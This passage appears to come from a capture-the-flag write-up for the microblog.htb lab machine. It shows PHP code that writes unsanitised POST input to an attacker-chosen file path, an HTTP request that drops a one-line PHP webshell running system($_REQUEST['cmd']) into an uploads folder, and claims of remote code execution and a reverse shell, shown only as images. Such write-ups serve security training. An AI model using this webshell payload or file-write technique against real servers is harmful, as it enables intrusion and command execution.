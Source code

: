 This creates an `/uploads` directory and makes it **writeable**. This means that we can actually use the LFI to write a file. The reason this works is because of the code below:

```php
$html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
```

The `header` parameter would have the contents of the PHP webshell, while the `id` parameter would have the full path of the file to be written since both are not sanitised. I used this HTTP request:

{% code overflow="wrap" %}
```http
POST /edit/index.php HTTP/1.1
Host: test.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: http://test.microblog.htb
Connection: close
Referer: http://test.microblog.htb/edit/
Cookie: username=1cl26pbf4ftqkk0s7i5ntv84iv
Upgrade-Insecure-Requests: 1



id=/var/www/microblog/test/uploads/rev.php&txt=<%3fphp+system($_REQUEST['cmd'])%3b+%3f>
```
{% endcode %}

Afterwards, we can confirm we have RCE:

<figure><img src="../../.gitbook/assets/image (3973).png" alt=""><figcaption></figcaption></figure>

And then we can get a reverse shell:

<figure><img src="../../.gitbook/assets/image (3869).png" alt=""><figcaption></figcaption></figure>
